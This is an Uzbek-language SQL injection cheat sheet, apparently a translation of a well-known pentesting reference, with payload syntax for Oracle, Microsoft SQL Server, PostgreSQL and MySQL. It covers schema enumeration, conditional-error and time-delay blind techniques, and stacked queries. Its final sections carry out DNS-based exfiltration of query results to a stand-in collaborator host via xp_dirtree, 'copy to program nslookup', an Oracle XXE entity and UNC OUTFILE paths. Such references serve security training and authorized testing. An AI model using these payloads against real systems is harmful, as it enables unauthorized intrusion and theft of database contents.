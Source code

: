 # SQL ineksiya cheat sheet

Ushbu SQL ineksiya cheat sheetida, siz SQL ineksiya hujumlarini amalga oshirishda ko'pincha yuzaga keladigan turli vazifalarni bajarish uchun foydalanadigan foydali sintaksis misollari mavjud.

### Stringlarni biriktirish <a href="#string-concatenation" id="string-concatenation"></a>

Bitta stringni yaratish uchun siz bir nechta stringlarni birlashtirishingiz mumkin.

| Oracle     | `'foo'`&#124&#124`'bar'`                                                                  |
| :---       | :---                                                                             |
| Microsoft  | `'foo'+'bar'`                                                                    |
| PostgreSQL | `'foo'`&#124&#124`'bar'`                                                                  |
| MySQL      | ```'foo' 'bar'``` [Note the space between the two strings]`CONCAT('foo','bar')`  |

### Substring <a href="#substring" id="substring"></a>

Siz belgilangan offsetdan belgilangan uzunlikda stringni ajratib olishingiz umkin. E'tibor bering, ofset indeksi 1 ga asoslangan. Quyidagi iboralarning har biri `ba`stringini qaytaradi.

| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| :---       | :---                        |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |

### Komentariyalar <a href="#substring" id="substring"></a>

Siz so'rovni kesish uchun komentariyalardan foydalanishingiz va asl so'rovni olib tashlashingiz mumin.

| Oracle     | `--comment`                                                                                          |
| :---------- | :-------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `--comment``/*comment*/`                                                                  |
| PostgreSQL | `--comment``/*comment*/`                                                                  |
| MySQL      | `#comment``-- comment` [Note the space after the double dash]`/*comment*/` |

### Database versiyasi <a href="#database-version" id="database-version"></a>

Siz uning turini va versiyasini aniqlash uchun ma'lumotlar bazasidan so'rov yuborishingiz mumkin. Ushbu ma'lumotlar yanada murakkab hujumlarni shakllantirishda foydali.

| Oracle     | `SELECT banner FROM v$version` <br /> `SELECT version FROM v$instance` |
| :---------- | :--------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT @@version`                                                                                  |
| PostgreSQL | `SELECT version()`                                                                                  |
| MySQL      | `SELECT @@version`                                                                                  |

### Database kontentlari <a href="#database-contents" id="database-contents"></a>

Siz ma'lumotlar bazasida mavjud bo'lgan jadvallarni va jadvallar tarkibidagi ustunlarni ro'yxatlashingiz mumkin.

| Oracle     | `SELECT * FROM all_tables` <br /> `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                               |
| :---------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT * FROM information_schema.tables` <br /> `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables` <br /> `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables`<br />`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

### Conditional  errors (Shartli xatoliklar) <a href="#conditional-errors" id="conditional-errors"></a>

Siz bitta Boolen holatini sinab ko'rishingiz mumkin va agar holat to'g'ri bo'lsa, ma'lumotlar bazasi xatosini o'zgartirishingiz mumkin.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`      |
| :---------- | :--------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`           |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

### Batched (yoki stacked) so'rovlar <a href="#batched-or-stacked-queries" id="batched-or-stacked-queries"></a>

Siz ketma-ket bir nechta so'rovlarni bajarish uchun bir nechta so'rovlarni bajarishingiz mumkin. E'tibor bering, keyingi so'rovlar bajarilsa ham, natijalar applicationga qaytarilmaydi. Demak, ushbu usul birinchi navbatda **Blind** zaifligi, shartli xato yoki vaqtni kechiktirishni boshlash uchun ikkinchi so'rovdan foydalanishingiz mumkin.

| Oracle     | `Does not support batched queries.` |
| :---------- | :----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |

**Eslatma**

MySQL bilan, odatda SQL ineksiya uchun foydalanib bo'lmaydi. Biroq, target dastur MySQL ma'lumotlar bazasi bilan muloqot qilish uchun ma'lum bir PHP yoki Python Apisni ishlatsa, vaqti-vaqti bilan mumkin.

### Time delaylar <a href="#time-delays" id="time-delays"></a>

Siz ma'lumotlar bazasida so'rov qayta ishlanganda vaqtni kechiktirishingiz mumkin. Quyidagilar 10 soniya davomida vaqtni kechiktirishga olib keladi

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| :---------- | :------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

### Conditional time delays (Shartli vaqt kechiktirishlar) <a href="#conditional-time-delays" id="conditional-time-delays"></a>

Siz bitta Booley holatini sinab ko'rishingiz mumkin va agar shart to'g'ri bo'lsa, vaqtni kechiktirishni boshlang.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'`&#124&#124`dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :---------- | :---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`                                                                   |

### DNS lookup <a href="#dns-lookup" id="dns-lookup"></a>

Siz ma'lumotlar bazasi orqali tashqi domenlarni aniqlash uchun DNS qidiruvini amalga oshirishingiz mumkin. Buning uchun, hujumda foydalanadigan Burp Collaborator subdomainini yaratib beruvchi Burp-Collabratordan foydalanishingiz kerak.shunda DNS qidiruvi sodir bo'lganligini aniqlay olasiz.

| Oracle     | Quyidagi usul DNS qidiruvini boshlash uchun (XXE) XML usullainir ishlatadi. Bu zaiflik allaqachon patch qilingan ammo bir nechta Oracle databaselarda mavjud:`SELECT extractvalue(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`Quyidagi usullar to'liq patch qilingan Oracle databaselari uchun ishlaydi, ammo yuqori privilegiyani talab qiladi.`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| :---------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| MySQL      | <strong>Bu usul faqat Windowsda ishlaydi.</strong>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')``SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                                                                                            |

### Ma'lumot eksfiltratsiyasi bilan DNS qidiruvi <a href="#dns-lookup-with-data-exfiltration" id="dns-lookup-with-data-exfiltration"></a>

Siz ineksiyalangan so'rov natijalarini o'z ichiga olgan tashqi domenga DNS qidiruvini amalga oshirish uchun ma'lumotlar bazasini keltirib chiqarishingiz mumkin. Buning uchun siz hujumda foydalanadigan subdomenni yaratishda Burp Collabrator clientidan foydalanib subdomen yaratishingiz kerak, Keyin har qanday DNS so'rov ma'lumotlarning tafsilotlarini olish uchun kollaoratator serveridan foydalaning.

| Oracle     | `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'`&#124&#124`(SELECT YOUR-QUERY-HERE)`&#124&#124`'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                                                                                                                                                                        |
| :---------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                                                                                                                                                                               |
| PostgreSQL | `create OR replace function f() returns void as $$``declare c text;``declare p text;``begin``SELECT into p (SELECT YOUR-QUERY-HERE);``c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';``execute c;``END;``$$ language plpgsql security definer;``SELECT f();` |
| MySQL      | Bu usul faqat Windowsda ishlaydi.`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                                                                                                                                                             |

####

